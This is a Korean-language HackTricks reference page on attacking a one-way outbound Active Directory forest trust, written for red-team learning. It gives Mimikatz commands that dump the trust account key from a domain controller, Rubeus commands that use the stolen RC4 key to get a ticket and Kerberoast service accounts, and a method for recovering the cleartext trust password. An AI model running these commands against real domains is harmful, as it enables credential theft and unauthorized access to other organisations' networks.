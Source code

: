 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 시나리오에서 **당신의 도메인**은 **다른 도메인**의 주체에게 **특권**을 **신뢰**하고 있습니다.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

두 도메인 간에 신뢰 관계가 설정될 때 보안 취약점이 존재합니다. 여기서 도메인 **A**와 도메인 **B**로 식별되며, 도메인 **B**가 도메인 **A**에 신뢰를 확장합니다. 이 설정에서는 도메인 **B**를 위해 도메인 **A**에 특별한 계정이 생성되며, 이는 두 도메인 간의 인증 과정에서 중요한 역할을 합니다. 도메인 **B**와 연결된 이 계정은 도메인 간 서비스에 접근하기 위한 티켓을 암호화하는 데 사용됩니다.

여기서 이해해야 할 중요한 점은 이 특별한 계정의 비밀번호와 해시를 도메인 **A**의 도메인 컨트롤러에서 명령줄 도구를 사용하여 추출할 수 있다는 것입니다. 이 작업을 수행하는 명령은:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
이 추출은 이름 뒤에 **$**가 붙은 계정이 활성화되어 있고 도메인 **A**의 "Domain Users" 그룹에 속해 있어 이 그룹과 관련된 권한을 상속받기 때문에 가능합니다. 이를 통해 개인은 이 계정의 자격 증명을 사용하여 도메인 **A**에 인증할 수 있습니다.

**경고:** 이 상황을 이용하여 사용자로서 도메인 **A**에 발판을 마련하는 것이 가능하지만, 권한은 제한적입니다. 그러나 이 접근은 도메인 **A**에서 열거 작업을 수행하는 데 충분합니다.

`ext.local`이 신뢰하는 도메인이고 `root.local`이 신뢰받는 도메인인 시나리오에서, `root.local` 내에 `EXT$`라는 사용자 계정이 생성됩니다. 특정 도구를 통해 Kerberos 신뢰 키를 덤프하여 `root.local`의 `EXT$` 자격 증명을 드러낼 수 있습니다. 이를 달성하기 위한 명령은:
```bash
lsadump::trust /patch
```
다음으로, 추출된 RC4 키를 사용하여 다른 도구 명령을 사용하여 `root.local` 내에서 `root.local\EXT$`로 인증할 수 있습니다:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
이 인증 단계는 `root.local` 내에서 서비스를 열거하고 심지어 악용할 수 있는 가능성을 열어줍니다. 예를 들어 Kerberoast 공격을 수행하여 서비스 계정 자격 증명을 추출할 수 있습니다:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### 명확한 신뢰 비밀번호 수집

이전 흐름에서는 **명확한 텍스트 비밀번호** 대신 신뢰 해시가 사용되었습니다 (이것은 또한 **mimikatz에 의해 덤프되었습니다**).

명확한 비밀번호는 mimikatz의 \[ CLEAR ] 출력을 16진수로 변환하고 null 바이트 ‘\x00’을 제거하여 얻을 수 있습니다:

![](<../../.gitbook/assets/image (938).png>)

신뢰 관계를 생성할 때 사용자가 신뢰를 위해 비밀번호를 입력해야 하는 경우가 있습니다. 이 시연에서 키는 원래의 신뢰 비밀번호이며 따라서 사람이 읽을 수 있습니다. 키가 주기적으로 변경되면 (30일), 명확한 텍스트는 사람이 읽을 수 없지만 기술적으로 여전히 사용 가능합니다.

명확한 비밀번호는 신뢰 계정으로 정기 인증을 수행하는 데 사용될 수 있으며, 신뢰 계정의 Kerberos 비밀 키를 사용하여 TGT를 요청하는 대안입니다. 여기서 ext.local에서 Domain Admins의 구성원을 위해 root.local을 쿼리합니다:

![](<../../.gitbook/assets/image (792).png>)

## 참고문헌

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
